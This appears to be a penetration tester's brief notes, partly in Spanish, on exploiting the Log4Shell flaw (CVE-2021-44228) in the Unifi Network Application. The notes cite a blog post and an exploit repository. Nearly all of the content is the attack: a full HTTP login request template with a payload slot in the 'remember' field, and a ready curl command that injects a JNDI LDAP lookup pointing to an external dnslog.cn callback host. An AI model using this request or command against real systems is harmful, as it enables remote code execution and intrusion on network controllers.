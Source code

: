                                                              EXPLOTACIÓN UNIFIED
================================================================================================================================================================

**GATHERING INFO**
================================================================================================================================================================

SITIO DE REFERENCIA
-------------------
https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi


puzzlepeaches / Log4jUnifi
Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.



PAYLOAD
-------
POST /api/login HTTP/2
Host: <TARGET> 
Content-Length: 109
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://<TARGET>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://<TARGET>/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}


**BREAKING IN**
================================================================================================================================================================

DNSLOG
------
http://dnslog.cn/

# curl -i -s -k -X POST -H $'Host: 192.168.11.10:8443' -H $'Content-Length: 108' --data-binary $'{\"username\":\"admin\",\"password\":\"admin\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://192.168.11.10:8443/api/login'
